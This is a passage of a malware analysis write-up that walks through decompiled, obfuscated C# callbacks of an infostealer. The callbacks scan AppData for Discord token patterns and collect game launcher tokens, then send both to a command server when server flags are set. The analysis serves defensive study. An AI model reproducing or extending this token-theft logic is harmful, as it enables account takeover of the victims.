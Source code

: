 ```csharp
                      };
                      if (entity.Id3 != null && entity.Id3.Length != 0)
                      {
                          list.Add(entity);
                      }
```

We can figure out that Entity16 contains searchPattern (item.Id2) and searchOption (item.id3), since that’s what the GetFiles function takes as parameters. item.id1 seems to be a subfolder path (relative to config.Id2).

We can use the same reasoning for Entity17 and find out it’s a class to store Wallet informations. See at the end for the rewritten class.


#### Callback 19
```csharp
public static void ыва83о4тфыв(ConnectionProvider connection, Entity2 settings, ref Entity7 result)
{
    if (settings.Id9)
    {
        Entity13 entity = connection.Id11(Discord.GetTokens()?.ToList());
        if (entity == Entity13.Id3)
        {
            ыва83о4тфыв(connection, settings, ref result);
        }
        if (entity == Entity13.Id4)
        {
            throw new InvalidOperationException();
        }
    }
}
```
This is very clearly stealing Discord data. So we can assume that settings.Id9 is just a flag from the server that tells the malware whether it should also steal Discord data.

We can also check what GetTokens() actually does:
<img width="440" height="234" alt="image" src="https://github.com/user-attachments/assets/0f4bfb28-3ba8-4c32-88a6-cdc6de04c887" />

<img width="296" height="215" alt="image" src="https://github.com/user-attachments/assets/b49f9fa6-5b75-4ba7-ae01-35bd9e6c5e89" />


We already know thanks to the previous analysis that Entity5 is just AppData (see in the end to find the exact offsets).
The function:
- scans all directories related to Discord
- Reads each file bytes and then checks whether there’s a pattern for Discord tokens in each file
- These tokens are all added into a single stringBuilder
These tokens can of course be used to login to Discord, so this is stealth.

#### Callback 20
This call back is pretty much using the same logic as in Callback19, but instead of stealing Discord tokens, it tries to steal tokens from installed games on the device.
```csharp
public static void askd435(ConnectionProvider connection, Entity2 settings, ref Entity7 result)
{
  if (settings.Id8)
  {
      Entity13 entity = connection.Id23(new GameLauncher().TreeObject4());
      if (entity == Entity13.Id3)
      {
          askd435(connection, settings, ref result);
      }
      if (entity == Entity13.Id4)
      {
          throw new InvalidOperationException();
```